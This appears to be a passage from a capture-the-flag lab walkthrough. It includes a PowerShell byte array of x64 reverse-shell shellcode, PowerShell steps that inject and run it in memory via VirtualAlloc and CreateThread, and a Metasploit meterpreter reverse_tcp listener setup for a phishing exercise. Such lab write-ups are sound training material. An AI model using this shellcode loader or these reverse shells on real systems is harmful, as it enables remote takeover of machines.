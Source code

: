 ```powershell
[Byte[]] $buf = 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x0,0x0,0x0,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0xf,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x1,0xd0,0x8b,0x80,0x88,0x0,0x0,0x0,0x48,0x85,0xc0,0x74,0x67,0x48,0x1,0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x1,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x1,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x3,0x4c,0x24,0x8,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x1,0xd0,0x66,0x41,0x8b,0xc,0x48,0x44,0x8b,0x40,0x1c,0x49,0x1,0xd0,0x41,0x8b,0x4,0x88,0x48,0x1,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,0x32,0x0,0x0,0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,0x1,0x0,0x0,0x49,0x89,0xe5,0x49,0xbc,0x2,0x0,0x11,0x5c,0xa,0xa,0x8b,0xf4,0x41,0x54,0x49,0x89,0xe4,0x4c,0x89,0xf1,0x41,0xba,0x4c,0x77,0x26,0x7,0xff,0xd5,0x4c,0x89,0xea,0x68,0x1,0x1,0x0,0x0,0x59,0x41,0xba,0x29,0x80,0x6b,0x0,0xff,0xd5,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,0x48,0x89,0xc2,0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,0xba,0xea,0xf,0xdf,0xe0,0xff,0xd5,0x48,0x89,0xc7,0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba,0x99,0xa5,0x74,0x61,0xff,0xd5,0x48,0x81,0xc4,0x40,0x2,0x0,0x0,0x49,0xb8,0x63,0x6d,0x64,0x0,0x0,0x0,0x0,0x0,0x41,0x50,0x41,0x50,0x48,0x89,0xe2,0x57,0x57,0x57,0x4d,0x31,0xc0,0x6a,0xd,0x59,0x41,0x50,0xe2,0xfc,0x66,0xc7,0x44,0x24,0x54,0x1,0x1,0x48,0x8d,0x44,0x24,0x18,0xc6,0x0,0x68,0x48,0x89,0xe6,0x56,0x50,0x41,0x50,0x41,0x50,0x41,0x50,0x49,0xff,0xc0,0x41,0x50,0x49,0xff,0xc8,0x4d,0x89,0xc1,0x4c,0x89,0xc1,0x41,0xba,0x79,0xcc,0x3f,0x86,0xff,0xd5,0x48,0x31,0xd2,0x48,0xff,0xca,0x8b,0xe,0x41,0xba,0x8,0x87,0x1d,0x60,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,0x6,0x7c,0xa,0x80,0xfb,0xe0,0x75,0x5,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x0,0x59,0x41,0x89,0xda,0xff,0xd5
```

3) Execute:
```powershell
[IntPtr]$addr = [VrtAlloc]::VirtualAlloc(0, $buf.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $buf.Length)
$thandle = [CrtThread]::CreateThread(0, 0, $addr, 0, 0, 0)
[WaitFor]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

4) Wait a minute and on the AttackBox listener or directly from the Windows machine:
```powershell
type C:\Users\glitch\Desktop\flag.txt
```

## Day 9: GRC - Nine o'clock, make GRC fun, tell no one

Just follow the instructions, you can re-edit your assessments until you get all as "Perfect assessment" before completing each step

## Day 10: Phishing - He had a brain full of macros, and had shells in his soul

**What is the flag value inside the flag.txt file that’s located on the Administrator’s desktop?**

1) On one terminal listen for incoming connections:
```shell
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <ATTACKBOX_IP>
set LPORT 8888
exploit
```
